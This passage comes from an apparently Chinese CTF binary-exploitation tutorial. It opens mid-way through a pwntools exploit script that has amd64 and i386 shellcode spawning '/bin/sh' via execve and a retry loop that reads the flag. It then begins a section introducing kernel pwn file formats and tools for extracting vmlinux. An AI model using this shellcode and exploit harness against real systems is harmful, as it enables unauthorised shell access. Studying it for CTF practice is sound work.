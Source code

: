  ```python
	cmp	rax, 1
	je	label1		/* 测试近跳	*/
	'''%(uu64('/bin/sh'), 8)).decode(ENCODING)
	elif context.arch == 'i386':
		shellcode = asm('''
	push	%d		/*"/bin"*/
	push	%d		/*"/sh\x00"*/
	mov	ebx, esp	/*ebx -> "/bin/sh"*/
	xor	ecx, ecx	/*ecx -> NULL*/
	xor	edx, edx	/*edx -> NULL*/
	push	11
	pop	eax		/*eax = 11*/
	int 0x80		/*execve("/bin/sh")*/
	
	label1:
	mov	eax, [esp + %d]	/* 测试内存访问 */
	cmp	eax, 1
	je	label1		/* 测试近跳	*/
	'''%(uu32('/sh'), uu32('/bin'), 4)).decode(ENCODING)

while True:
	try:
		exp()
		sl('cat flag')
		data = ru('}', 1)
		if '{' not in data:
			r.close()
			continue
		else:
			log.info(data)
			break
	except KeyboardInterrupt:
		break
	except:
		continue
```


# Kernel

  kernel pwn中涉及非常琐碎的知识点，这里简单介绍一些

## 文件

### 内核文件

  一般有如下几种内核文件格式
  1. **vmlinux**
	从源码编译出来的，原始内核二进制文件
  2. **bzImage**
	big zImage，也就是更大的zImage。而**zImage**是**vmlinux**经过压缩后的文件，使用[extract-vmlinux脚本](extract-vmlinux)将**zImage**解压为**vmlinux**
	```bash
./extract-vmlinux /path/to/bzImage > /path/to/vmlinux
```
	亦可使用[vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf)，将**bzImage**转换为带符号的**vmlinux**
	```bash
vmlinux-to-elf /path/to/bzImage /path/to/vmlinux
```
